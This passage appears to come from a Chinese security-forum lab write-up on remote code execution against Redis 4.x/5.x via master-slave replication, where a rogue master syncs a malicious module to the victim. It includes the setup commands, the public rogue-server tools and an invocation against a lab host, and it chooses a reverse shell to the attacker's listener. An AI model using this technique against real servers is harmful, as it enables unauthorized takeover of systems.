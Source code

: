 0x06 利用主从复制RCE
--------------

之前写入webshell 基本是利用crontab、ssh key、webshe‖这样的文件都有一定容错性，再加上 crontab和ssh服务可以说是服务器的标准的服务，所以在以前，这种通过写入文件的 getshell方式基本就可以说是很通杀了

但随着现代的服务部署方式的不断发展，组件化成了不可逃避的大趋势，docker就是这股风潮下的产物之一，而在这种部署模式下，一个单一的容器中不会有除 redis以外的任何服务存在，包括sh和 crontab，再加上权限的严格控制，只靠写文件就很难再 getshel了，在这种情况下，我们就需要其他的利用手段了

漏洞存在于4.X、5.X版本中，简单来讲就是

攻击者（主机）写一个so文件，然后通过 FULLRESYNC（全局）同步文件到受害人（从机）上。

下载安装4.0.8的版本

一样的配置 改bind+改no

然后进行启动

```c
./src/redis-server redis.conf
```

设置密码

```c
config set requirepass a002
```

下载两个脚本

```c
https://github.com/n0b0dyCN/redis-rogue-server//未授权https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server//Redis有密码
```

目标靶机是不可以开启安全模式的

**远程登录**

攻击机上执行 进行远程连接靶机

```c
python3 redis_rogue_server.py -rhost 192.168.175.162 -lhost 192.168.175.161 -passwd a002
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-aa80e9e3a715dcd573b39ec41c3d4d8c400d5002.png)

他这里问你

i：直接拿到shell

还是r：反弹shell

上面就是拿shell

下面搞一搞 反弹shell

选r 攻击机的IP +开启监听端口

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c11c37f23b7164f4ea682e9dafbe3acbba286d14.png)

python进去pty
